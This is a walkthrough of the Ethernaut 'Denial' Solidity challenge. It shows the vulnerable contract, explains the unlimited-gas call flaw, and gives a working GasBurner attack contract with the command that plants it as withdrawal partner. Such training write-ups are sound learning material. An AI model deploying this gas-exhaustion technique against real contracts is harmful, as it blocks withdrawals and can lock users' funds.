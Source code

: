 # Level 20: Denial

This is the level 20 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites

- Solidity [`call` & `receive`](https://solidity-by-example.org/sending-ether/) methods
- [gasleft](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html#block-and-transaction-properties) function

## Hack

Given contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

`player` has to plant a denial of service attack such that `owner` is unable to withdraw funds through `withdraw` method.

This contract's vulnerability comes from the `withdraw` method which does not mitigate against possible attack through execution of some unknown external contract code through `call` method. `call` did not set a gas limit that external call can use.

The `call` method here can invoke the `receive` method of a malicious contract at `partner` address. And this is where we're going to eat up all gas so that `withdraw` function reverts with out of gas exception.

Since writing to storage is one of the most expensive operations, I will chose it for exhausting the gas in the malicious `GasBurner`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GasBurner {
    uint256 n;

    function burn() internal {
        while (gasleft() > 0) {
            n += 1;
        }
    }

    receive() external payable {
        burn();
    }
}
```

Deploy `GasBurner` on Remix and copy it's address.

Now, set the `partner` in `Denial`:
```javascript
await contract.setWithdrawPartner('<gas-burner-address>')
```

The `GasBurner` has been planted! `withdraw` would now revert on invocation.

Fin.


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
